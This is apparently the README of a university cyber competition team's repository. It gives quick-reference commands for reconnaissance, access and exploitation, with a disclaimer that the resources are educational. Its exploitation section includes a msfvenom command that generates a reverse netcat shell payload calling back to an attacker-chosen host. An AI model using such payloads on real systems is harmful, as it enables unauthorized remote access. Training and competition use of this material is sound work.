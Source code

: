 # A Public Repository for the UAT Cyber Competition Team
The folders represent various scripts and resources applicable to individual members or subject areas to support Blue or Red team operations.  The guidance below is for quick reference and will continue to evolve as we develop use-cases.
> ### Using any of the resources within this repository without proper permission by the target network owner will likely be illegal.  These resources are for educational purposes only. 

## RECONNAISSANCE
### Enumeration (Active Recon)
#### Network Enumeration
The first step in evaluating a target network is to identify open ports and active services.

NMAP Commands\
nmap [flag(s)] [target/file]



References:\
[Try Hack Me NMAP room](https://tryhackme.com/r/room/furthernmap)\
[NMAP Cheat Sheet All Commands & Flags Nathan House](https://www.stationx.net/nmap-cheat-sheet/)


## ACCESS
[An overview of SMB, Telnet, SSH and FTP](https://chatgpt.com/share/3a9c17c6-db6d-48b6-ae75-a3d976bdfd4f)

SMB Commands:\
```zsh
smbclient //IP/[share] -U [userName] -p [port]
```
Telnet Commands:\
```zsh
telnet [ip] [port]
```
SSH Commands:\
```zsh
ssh username@IP
```
FTP Commands:\

## EXPLOITATION

Reverse Shell:\
Obtain your lhost from the terminal using ifconfig or ip a

Obtaining a reverse shell payload:\
```zsh
msfvenom -p cmd/unix/reverse_netcat lhost=xx.xx.xx.xx lport=4444 R
```

